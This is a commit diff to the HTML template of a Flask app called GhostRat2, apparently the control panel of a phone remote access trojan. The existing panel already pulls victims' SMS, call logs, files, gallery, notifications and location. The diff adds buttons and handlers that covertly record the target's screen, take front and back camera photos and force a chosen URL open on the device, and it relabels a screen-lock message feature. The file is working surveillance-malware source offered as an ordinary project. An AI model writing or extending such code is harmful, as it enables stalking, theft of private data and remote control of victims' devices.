

Before and after one commit to MRSt3Ss/GhostRat2, a Flask app: page / in a window 1280 px wide. Shown: the part 96-797 px from the top of the page. Run offline with Flask 3, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -84,8 +84,10 @@ let selectedClientId = null;
 let currentModal = null;
 let popupTimeout;
 let flashOn = false;
+let screenRecordOn = false;
 let clientDataCache = {};
 let notificationHashes = new Set();
+let agentMessageHashes = new Set();
 
 const mainGridPanel = document.getElementById('main-grid-panel');
 
@@ -109,6 +111,7 @@ function selectDevice(clientId) {
     if (selectedClientId === clientId) return;
     selectedClientId = clientId;
     flashOn = false; // Reset flash state on device switch
+    screenRecordOn = false; // Reset screen record state
     document.querySelectorAll('.device-item').forEach(el => el.classList.remove('active'));
     document.getElementById(`device-${clientId.replace(/[:.]/g, '-')}`).classList.add('active');
     updateMainDashboard();
@@ -166,9 +169,13 @@ function getGridButtonsHtml(enabled) {
         <button class="grid-btn" ${disabledAttr} onclick="openModal('gallery')"><i class="fas fa-images"></i>Gallery</button>
         <button class="grid-btn" ${disabledAttr} onclick="openModal('notifications')"><i class="fas fa-bell"></i>Notifications</button>
         <button class="grid-btn" ${disabledAttr} onclick="openModal('apps')"><i class="fas fa-th-large"></i>Apps</button>
-        <button class="grid-btn" ${disabledAttr} onclick="openModal('toast')"><i class="fas fa-window-maximize"></i>Screen Lock</button>
+        <button class="grid-btn" ${disabledAttr} onclick="openModal('toast')"><i class="fas fa-window-maximize"></i>Custom Toast</button>
+        <button class="grid-btn" ${disabledAttr} onclick="openModal('openurl')"><i class="fas fa-external-link-alt"></i>Open URL</button>
+        <button class="grid-btn" ${disabledAttr} onclick="sendCommand('get_location')"><i class="fas fa-map-marker-alt"></i>Location</button>
         <button class="grid-btn" ${disabledAttr} id="flash-btn" onclick="toggleFlash()"><i class="fas fa-bolt"></i>Flash OFF</button>
-        <button class="grid-btn" ${disabledAttr} onclick="sendCommand('get_location')"><i class="fas fa-map-marker-alt"></i>Location</button>
+        <button class="grid-btn" ${disabledAttr} id="screen-record-btn" onclick="toggleScreenRecord()"><i class="fas fa-video"></i>Record OFF</button>
+        <button class="grid-btn" ${disabledAttr} onclick="sendCommand('takebackpic')"><i class="fas fa-camera-retro"></i>Back Pic</button>
+        <button class="grid-btn" ${disabledAttr} onclick="sendCommand('takefrontpic')"><i class="fas fa-camera"></i>Front Pic</button>
     `;
 }
 
@@ -191,7 +198,6 @@ function closeModal() {
 function fetchInitialDataForModal(modalType) {
     const commands = { sms: 'getsms', calls: 'getcalllogs', filemanager: 'filemanager', gallery: 'gallery', apps: 'list_app' };
     if (commands[modalType]) sendCommand(commands[modalType]);
-    // Notifications are polled, no initial command needed
 }
 
 async function renderModalContent() {
@@ -213,11 +219,15 @@ async function renderModalContent() {
                 </div>`).join('') + '</div>';
             break;
          case 'toast':
-             document.getElementById('modal-title').textContent = 'Screen Lock';
-             body.innerHTML = '<p>Enter text to display on the locked screen. The app will request permission if needed.</p>';
-             footer.innerHTML = `<input type="text" id="toast-text" placeholder="Your text here..." style="flex-grow: 1;"><button onclick="sendToast()">Lock Screen</button><button onclick="sendCommand('toast off')">Unlock</button>`;
+             document.getElementById('modal-title').textContent = 'Display Custom Toast';
+             body.innerHTML = '<p>Enter text to display on the target screen. The app will request permission if needed.</p>';
+             footer.innerHTML = `<input type="text" id="toast-text" placeholder="Your text here..." style="flex-grow: 1;"><button onclick="sendToast()">Show Toast</button><button onclick="sendCommand('toast off')">Hide Toast</button>`;
              break;
-        // Other cases remain the same but use clientData
+         case 'openurl':
+             document.getElementById('modal-title').textContent = 'Open URL';
+             body.innerHTML = '<p>Enter the full URL to open on the target device.</p>';
+             footer.innerHTML = `<input type="text" id="url-text" placeholder="https://example.com" style="flex-grow: 1;"><button onclick="sendOpenUrl()">Open URL</button>`;
+             break;
         case 'sms':
             body.innerHTML = '<table><thead><tr><th>Sender</th><th>Message</th></tr></thead><tbody>' + (clientData.sms_logs || []).map(log => `<tr><td>${log.userSender}</td><td>${log.content}</td></tr>`).join('') + '</tbody></table>';
             break;
@@ -247,6 +257,7 @@ async function renderModalContent() {
 
 // Actions
 function sendToast() { const text = document.getElementById('toast-text').value; if (text) sendCommand(`toast on ${text}`); }
+function sendOpenUrl() { const url = document.getElementById('url-text').value; if (url) sendCommand(`openurl ${url}`); }
 function handleFmAction(action, fileName) {
     if (action === 'rename') {
         const selectedFile = prompt('Which file to rename?');
@@ -265,6 +276,16 @@ function toggleFlash() {
       btn.style.color = flashOn ? 'yellow' : 'var(--border-color)';
     }
 }
+function toggleScreenRecord() {
+    screenRecordOn = !screenRecordOn;
+    sendCommand(screenRecordOn ? 'screenrecord start' : 'screenrecord stop');
+    const btn = document.getElementById('screen-record-btn');
+    if (btn) {
+      btn.innerHTML = `<i class="fas fa-video"></i>Record ${screenRecordOn ? 'ON' : 'OFF'}`;
+      btn.style.color = screenRecordOn ? 'red' : 'var(--border-color)';
+    }
+}
+
 function showPopup(type, message) {
     const popup = document.getElementById('popup-overlay');
     document.getElementById('popup-content').innerHTML = message;
@@ -290,6 +311,15 @@ async function pollStatus() {
                 // Location URL popup
                 if (clientData.location_url) {
                     showPopup('location', `Location: <a href="${clientData.location_url}" target="_blank">Open Map</a>`);
+                }
+                // Generic agent message popup
+                if (clientData.agent_messages && clientData.agent_messages.length > 0) {
+                    const latestMsg = clientData.agent_messages[0];
+                    const msgHash = `${device.id}-${latestMsg}`;
+                    if (!agentMessageHashes.has(msgHash)) {
+                        showPopup('agent_message', latestMsg);
+                        agentMessageHashes.add(msgHash);
+                    }
                 }
                 // Notification popup
                 if (clientData.notifications && clientData.notifications.length > 0) {
```
